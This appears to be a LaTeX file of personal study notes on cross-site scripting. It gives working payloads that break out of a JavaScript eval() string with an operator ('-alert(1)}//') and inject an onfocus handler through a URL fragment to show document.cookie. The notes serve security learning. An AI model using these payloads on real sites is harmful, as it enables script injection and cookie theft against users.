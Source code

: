 \documentclass{article}
\begin{document}
\begin{itemize}
\begin {enumerate}
      \end {enumerate}
      \rule{5cm}{0.4pt}
      \item if you have string then your payload in executable spot like eval () something like that 
            \begin{lstlisting}[frame=single]
                    eval('{"results": "' + userInput + '"}');
            \end{lstlisting}
      so your payload must have an operator like - + | 
            \begin{lstlisting}[frame=single]
                    "-alert(1)}//
            \end{lstlisting}
      After processing, the code might look like:
            \begin{lstlisting}[frame=single]
                  {"results": ""-alert(1)}//"}
            \end{lstlisting}
      "" (empty string) gets converted to number 0 , alert() returns undefined and The unary minus tries to do: 0 - undefined but at the end This results in NaN (Not a Number), but the alert already executed\\
   \rule{5cm}{0.4pt}   
      \item the iframe tag is so powerful in real world exploitations \\ \rule{5cm}{0.4pt}
      \item some payloads you have to but it in the url directly not the searchbox like
            \begin{lstlisting}[frame=single]
            <xss id="x" onfocus=alert(Document.cookie) tabindex=1>#x
            \end{lstlisting}
            the searchbox will encode the \#x so it will not trigger the element with the id="x" so we put it directly in the URL\\ \rule{5cm}{0.4pt}
            

\end{itemize}
\end{document}
